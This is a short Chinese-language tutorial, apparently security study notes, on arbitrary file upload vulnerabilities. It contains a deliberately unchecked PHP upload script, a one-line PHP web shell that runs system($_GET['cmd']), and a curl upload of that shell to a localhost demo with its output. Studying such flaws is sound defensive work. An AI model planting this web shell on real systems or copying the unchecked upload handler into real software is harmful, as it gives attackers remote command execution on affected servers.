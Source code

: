 # 任意文件上传漏洞

对上传的文件不进行检验,直接上传。一般与其他漏洞结合使用,例如任意目录遍历及远程命令调用。    
编写1个相关的PHP脚本,其内容为:  

```
<?php
function mkdirs($dir, $mode = 0777)
{
    if (is_dir($dir) || @mkdir($dir, $mode)) return TRUE;
    if (!mkdirs(dirname($dir), $mode)) return FALSE;
    return @mkdir($dir, $mode);
}
$target = "pictures/";
mkdirs($target);
$target = $target.basename($_FILES['uploadedfile']['name']);
if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target)){
  echo "The picture has been successfully upload.";
}else{
  echo "There was an error uploading the picture, please try again.";
}
```

再编写1个入侵的PHP脚本`malicious.php`:  

```
<?php
system($_GET['cmd']);
```

使用curl进行文件上传:

<pre>
$ curl http://localhost/demo.php -F "uploadedfile=@malicious.php" -v
*   Trying ::1...
* TCP_NODELAY set
* Connected to localhost (::1) port 80 (#0)
> POST /demo.php HTTP/1.1
> Host: localhost
> User-Agent: curl/7.61.1
> Accept: */*
> Content-Length: 241
> Content-Type: multipart/form-data; boundary=------------------------2572e1912cbed99d
>
< HTTP/1.1 200 OK
< Date: Tue, 14 May 2019 03:32:51 GMT
< Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
< X-Powered-By: PHP/5.4.45
< Content-Length: 41
< Content-Type: text/html
<
The picture has been successfully upload.* Connection #0 to host localhost left intact
</pre>

文件上传成功。  
例如,远程命令调用:  

![calc](1.jpg)